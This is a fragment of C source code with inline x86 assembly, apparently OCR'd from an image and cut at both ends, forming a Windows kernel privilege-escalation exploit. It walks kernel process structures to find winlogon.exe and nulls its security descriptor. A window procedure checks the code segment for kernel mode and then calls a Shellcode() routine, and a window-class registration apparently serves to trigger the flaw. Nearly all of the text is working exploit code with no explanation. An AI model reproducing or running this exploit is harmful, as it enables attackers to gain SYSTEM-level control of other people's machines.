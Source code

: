     __asm 
    {
	mov eax, kernelHandle // WND - Which window? Check this
	mov eax, [eax+8] // THREADINFO
	mov eax, [eax] // ETHREAD
	mov eax, [eax+0x150] // KPROCESS
	mov eax, [eax+0xb8] // flink
	procloop:
	lea edx, [eax-0xb8] // KPROCESS
	mov eax, [eax]
	add edx, 0x16c // module name
	cmp dword ptr [edx], 0x6c6e6977 // “winl” for winlogon.exe
	jne procloop
	sub edx, 0x170
	mov dword ptr [edx], 0x0 // NULL ACL
    }
}

BOOL success = FALSE;
LRESULT CALLBACK WndProc2(HWND hwnd, UINT msg, WPARAM wParam, LPARAM lParam)
{

    WORD um = 0;
    __asm
    {
	mov ax, cs
	mov um, ax
    }
    if (um == 0x1b)
    {
        // USER MODE
    }
    else
    {
        success = TRUE;
       // DebugBreak();

        Shellcode();
    }

    return DefWindowProc(hwnd, msg, wParam, lParam);
}

HWND Secondhwnd[50];
int SecondWindowIndex = 1;
void CreateSecondWindow()
{
    WNDCLASSEX wc;
    const WCHAR g_szClassName[] = L"SecondClass";

    // Step 1: Registering the Window Class
    wc.cbSize = sizeof(WNDCLASSEX);
    wc.style = 0;
    wc.lpfnWndProc = WndProc2;
    wc.cbClsExtra = 0;
    wc.cbWndExtra = 0;
    wc.hInstance = NULL;
    wc.hIcon = LoadIcon(NULL, IDI_QUESTION);
    wc.hCursor = LoadCursor(NULL, IDI_QUESTION);
    wc.hbrBackground = (HBRUSH)(COLOR_WINDOW + 1);
    wc.lpszMenuName = NULL;
    wc.lpszClassName = g_szClassName;
    wc.hIconSm = LoadIcon(NULL, IDI_QUESTION);

    if (!RegisterClassExW(&wc))
    {
        return;